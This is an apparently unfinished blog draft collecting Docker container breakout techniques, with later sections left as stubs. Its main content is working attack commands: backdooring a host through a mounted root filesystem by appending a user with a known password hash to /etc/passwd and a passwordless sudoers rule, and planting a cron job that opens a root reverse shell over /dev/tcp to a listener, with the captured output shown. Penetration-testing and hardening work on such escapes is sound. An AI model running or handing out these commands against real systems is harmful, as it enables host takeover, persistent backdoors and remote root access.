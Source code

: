 ```yaml
---
title: "Container Breakouts Techniques"
date: 2020-07-11T13:09:54+02:00
draft: true
---
```


Basic Container Breakouts
## Intro
The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Attacks
The attacks refer to each other, cause the root-cause why an attack is possible may differ, but the final break out may be the same. The examples are related to docker. The transfer to other container technologies, e.g., LXC may be slightly different and maybe there will be a follow-up post regarding this ;)

### Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.
Lets assume that the host root directory is accessible at `/hostfs`

#### SSH to user

To escalate to the host, we create a user in the file `/hostfs/etc/passwd` and add the user to the sudoer’s. After the user is prepared, we connect via SSH to the host. Okay, it is a kind of flaky, because certain packages must have been installed and services running, you get the idea :)

```bash 
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1000::/home/user:/bin/bash
# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0
# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd
# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user
# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2
# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is a SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo step by creating another user with uid 0 to get rid of that step, nut anyway ;)

#### Cronjob

Another approach would be to write a cronjob file that get triggered every minute and connects to our container as root user.

```bash 
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 


### Privileged Container
If you start a container with Docker and you add the flag `--privileged` that means to the process in the container can act as root user on the host. The containerization would have the advantage of self-containing software shipment, but no real security boundaries to the kernel.
There are plenty ways to escape from a privileged container. Let’s have a start.

#### Host devices

I prefer to use the host devices to escape from a privileged container. A quick directory listing of the devices in the container shows that we have access to all of them:

```bash
root@0462216e684b:~# ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jul 11 09:20 autofs

[...]

brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1

[...]
```
As you can see, the hard drive itself is listed, which can be mounted. After mounting the device, it is possible to interact as root user with the device and backdoor the system.
Getting access via the hard drive is already described in the previous section [Shared Host root-directory](#shared-host-root-directory).


#### cgroups
TODO … have to read :D

### Docker Socket

Finde Docker Socket
Starte privileged Container

### Capabilities

#### `CAP_SYS_Module` – Load Kernel Module 





